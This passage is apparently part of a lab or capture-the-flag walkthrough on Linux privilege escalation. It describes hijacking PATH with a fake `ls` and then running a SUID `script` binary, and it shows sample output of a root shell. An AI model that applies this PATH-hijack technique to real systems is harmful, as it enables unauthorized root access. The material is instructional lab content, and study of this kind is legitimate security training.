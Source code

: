 **Explanation:**  
This will cause the system to use our `ls` command whenever `ls` is called.

### Q7. Now, change directory back to user5’s home directory.

#### Action

Go back to the home directory:

```bash
cd
```

### Q8. Now, run the `script` file again. You should be sent into a root bash prompt! Congratulations!

#### Action

Run the script:

```bash
./script 
```

**Sample Output:**

```
Welcome to Linux Lite 4.4 user5
root@polobox:~# whoami
root
```

You should now have a root shell.
